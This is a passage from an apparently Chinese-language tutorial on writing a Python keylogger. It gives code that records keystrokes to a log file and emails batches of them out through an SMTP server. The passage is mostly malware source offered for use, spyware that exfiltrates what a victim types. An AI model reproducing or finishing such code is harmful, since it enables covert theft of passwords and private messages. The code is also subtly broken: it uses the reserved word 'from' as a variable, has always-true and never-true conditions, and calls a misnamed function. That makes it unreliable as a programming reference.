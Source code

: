 然后，我们可以定义通过连接 SMTP 服务器发送电子邮件的方法：

```
def sendEmail(data,to): 
    try: 
        # Provide from email address 
        from = 'you@yourdomain.com' 
        # Your SMTP username 
        username = 'keylogger' 
        # Your Email password 
        password = 'asd123' 
        # Use MIMEText to create an email 
        mail = MIMEText(data, 'html') 
        mail['Subject']  = "Keylogger Data --" +str(datetime.datetime.now()) 
        mail['From']=from 
        mail['To'] = to 

        # Send the message via your SMTP server 
        server = smtplib.SMTP('smtp.yourdomain.com:587') 
        # Enable TLS if required 
        server.starttls() 
        server.login(username,password) 
        server.sendmail(from, [to], mail.as_string()) 
        server.quit() 
    except: 
        pass

```

现在我们可以将数据和地址传递给这个方法。这会将击键发送到指定的地址。现在我们可以重写`OnKeyboardEvent`方法来发送击键：

```
def OnKeyboardEvent(event): 
    # Write character only if its not a null or backspace  
    if event.Ascii !=0 or 8: 
        # Open log file and read the current keystrokes in log file 
        f=open('c:\log.txt','r+') 
        buffer=f.read() 
        f.close()  

        if len(buffer)%100==0 and len(buffer)%100!=0: 
            #send last 1000 characters to the email 
            send_email(buffer[-1000:].replace("\n","<br>"),email) 

        # Open the log.txt file to update new keystrokes 
        f=open('c:\log.txt','w') 
        keylogs=chr(event.Ascii) 

        # if the key pressed is ENTER, update with /n  
        if event.Ascii==13: 
            keylogs='\n' 

        #if the key pressed is space, update with space  
        if event.Ascii==32: 
            keylogs='  ' 

        # Add new keystrokes to buffer 
        buffer+=keylogs 

        # Write the buffer to log file 
        f.write(buffer) 
        # close the log file 
        f.close() 

```

